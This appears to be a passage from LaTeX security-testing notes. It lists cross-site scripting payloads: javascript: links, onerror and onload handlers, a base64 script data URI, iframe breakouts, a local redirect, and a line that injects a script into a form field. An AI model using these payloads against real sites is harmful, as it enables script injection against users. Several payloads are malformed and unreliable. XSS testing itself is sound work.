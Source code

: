 Other payloads:
\begin{lstlisting}[numbers=none]
<a href='www.evil-site.com'>www.evil-site.com link</a>
<a href="javascript:document.write('<image src =q onerror=prompt(8)>')">evil link</a>
<a href="javascript:let pdfWindow = window.open('');pdfWindow.document.write( `<iframe width='100%' height='100%' src='data:text/html;base64, ` + encodeURI(`PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=`) + `'></iframe>` )
">evil link</a>
<a href='data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4='>clic on xss</a>
<script>javascript:alert(123456789)</script>
<image src =q onerror=prompt(8)>
<img src="javascript:alert('XSS');">
<object src=1 href=1 onerror="javascript:alert(1)"></object>
<audio src=1 href=1 onerror="javascript:alert(1)"></audio>
<video src=1 href=1 onerror="javascript:alert(1)"></video>
<svg onload svg onload="javascript:javascript:alert(1)"></svg onload>
<iframe onLoad iframe onLoad="javascript:javascript:alert(1)"></iframe onLoad>
<iframe onbeforeload iframe onbeforeload="javascript:javascript:alert(1)"></iframe onbeforeload>
<iframe><textarea></iframe><img src='' onerror='alert(document.domain)'>
</textarea><script>alert(/xss/)</script>
<INPUT TYPE="IMAGE" SRC="javascript:javascript:alert(1);" onerror="javascript:alert(1)"  onclick="javascript:alert(1)">
<iframe><textarea></iframe><img src="" onerror="alert('14/04/2022')">

<image src =q onerror=`window.parent.location = 'http://127.0.0.1:8000/SPC.html'`>
<image src =q onerror='javascript:alert(1223456789)'>
\end{lstlisting}

Example: Base64 XSS payload
\begin{lstlisting}[numbers=none]
data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=
\end{lstlisting}

Insert value in HTML element with javascript:
\begin{lstlisting}[numbers=none]
	document.getElementById("f_464cf370-896e-4af1-a0b1-3f4621ff0a36").value = '<script>javascript:alert(123456789)</script>';
\end{lstlisting}
	

\section{Cross Site Scripting Validation}

\begin{lstlisting}[numbers=none]
<script>javascript:alert(1)</script>
\end{lstlisting}

